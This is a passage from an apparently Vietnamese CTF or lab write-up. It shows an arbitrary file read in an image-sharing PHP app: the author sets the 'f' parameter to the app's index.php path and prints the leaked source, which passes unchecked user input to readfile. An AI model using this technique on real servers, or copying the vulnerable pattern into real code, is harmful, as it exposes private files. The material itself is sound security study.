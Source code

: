 ![image-7](images/image-7.png)

Vậy thử xem có đọc được file code của chức năng Image Sharing không.

Em đổi giá trị của tham số `f` thành `/var/www/html/image-sharing/index.php` rồi gửi request đã đọc được thành công nội dung file `index.php`:

![image-8](images/image-8.png)

```php
<?php
@date_default_timezone_set('Asia/Ho_Chi_Minh');
error_reporting(0);
header('response-id: 1');

if (@$_GET['f']) {
  chdir('./file_contents');
  header('Content-Type: application/octet-stream');
  header('Content-Disposition: attachment; filename='.base64_decode($_GET['f']));
  readfile(base64_decode($_GET['f']));
  exit;
}

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
  @mkdir('./file_contents',0777);
  $filename = $_SERVER['HTTP_X_FILE_NAME'];
  $post = explode(',', file_get_contents('php://input'));
  $enc_content = $post[1];
  $scheme = explode(':', $post[0]);
```